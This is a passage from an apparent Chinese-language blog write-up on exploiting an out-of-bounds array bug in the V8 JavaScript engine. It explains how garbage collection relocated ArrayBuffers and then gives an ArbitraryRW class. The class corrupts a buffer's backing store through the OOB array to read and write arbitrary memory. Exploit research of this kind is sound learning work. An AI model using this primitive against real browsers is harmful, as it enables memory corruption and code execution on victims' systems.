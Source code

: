 **一个困扰我很长时间的小问题**

在release下使用%DebugPrint(array)时，似乎会发生一些奇怪的事情。这是打印出来的效果。

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/jnG9k4.png)

所有的ArrayBuffer的地址都在一起，查看里面的内存，他们的确拥有一个ArrayBuffer的完整结构，这些所谓的ArrayBuffer的地址都比较高（不管笔者以什么方式创建ArrayBuffer），以至于永远在我们**数组越界**的范围之外。这样就会导致无法利用。

刚开始笔者猜测是否是因为oobArray的CHUNK没有被GC回收走。

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/cHWxpF.png)

查看内存，刚开始并没有发生什么异样，符合ArrayBuffer的结构。但是仔细看过之后发现ArrayBuffer本该存折Map指针的地方和Map的值并不匹配。不过周围其他值似乎都很正常（length，backing store之类的）我们对这个指针进行解引用。

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/XVs8FJ.png)

实际上这个经过第二次解引用的指针才是正确的内存，此时的MAP部分已经和%DebugPrint的结构相一致，其他部分也都是完整的。而我们为了找到ArrayBuffer，进行了两次解引用。

**为什么要多一次解引用呢？**

应该是与自动回收机制（GC）有关。笔者猜测，可能是之前的内存被释放（oobArray），然后GC将刚才ArrayBuffer从原来的地方Copy走了，统一移动到这块块刚被释放到内存中。这也解释了为什么ArrayBuffer的地址一开始都在oobArray读取的范围外，因为当时GC还没将这块内存释放。（简单来说就是GC把ArrayBuffer带走了，在原地址处留了一个指针，然而我一直不知道那是指针。。浪费了我超久的时间）具体原因还需要看研究一下GC的实现方式，未来再填坑。

实验过程中还发现，如果没有使用arrays数组将ArrayBuffer写入，ArrayBuffer的地址并不会被GC改变。这部分目前还搞不明白，只能看大神们写的exploit。

**实现任意地址读写**

这部分和之前的oobArray读写差不多，直接上代码。

**注意点：需要同时修改Backing Store和kBitField Offset，这两个相邻变量的值是相同的，经过调试发现同时修改才有效。。**

```
class ArbitraryRW
{
    read(addr){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        this.f64=new Float64Array(arrays[buf_index],0,2);
        return ct.f2i(this.f64[0]);
    }
    write(addr,value){
        oobArray[backing_store]=ct.i2f(addr);
        oobArray[kbitfield]=ct.i2f(addr);
        this.f64=new Float64Array(arrays[buf_index],0,2);
        this.f64[0]=ct.i2f(value);
    }
    leak(){ //泄露backing store指针
        return ct.f2i(oobArray[backing_store]);
    }
}
var wr=new ArbitraryRW();
```
